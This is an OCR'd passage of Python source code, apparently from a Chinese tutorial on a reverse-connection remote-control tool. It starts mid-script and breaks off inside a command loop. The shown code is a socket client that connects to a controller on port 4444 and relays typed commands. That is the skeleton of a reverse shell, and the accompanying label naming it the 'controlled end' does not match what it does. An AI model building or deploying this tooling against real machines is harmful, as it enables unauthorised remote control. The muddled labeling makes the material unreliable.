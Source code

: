     except ConnectionRefusedError:
        print("[!] Connection refused. Make sure the server is running and listening on the correct host and port.")
    except KeyboardInterrupt:
        print("\n[!] Closing connection...")
    finally:
        client.close()

def main():
    client_loop()

if __name__ == "__main__":
    main() 
###
    
反向连接被控制端代码如下：

###
import socket
import threading

def receive_data(client_socket):
    try:
        response = b""
        while True:
            data = client_socket.recv(1024)
            if not data:
                break
            response += data
        return response.decode('utf-8', errors='ignore')
    except Exception as e:
        print(f"Error receiving data: {e}")
        return None

def send_command(client_socket, command):
    try:
        client_socket.send(command.encode('utf-8'))
        if command.lower() == 'exit':
            return False
        return True
    except Exception as e:
        print(f"Error sending command: {e}")
        return False

def client_loop():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        client.connect(('127.0.0.1', 4444))  # 假设控制端运行在本地主机上
        print(receive_data(client))  # Receive welcome message

        while True:
            command = input("> ").strip()
            if not send_command(client, command):
                break
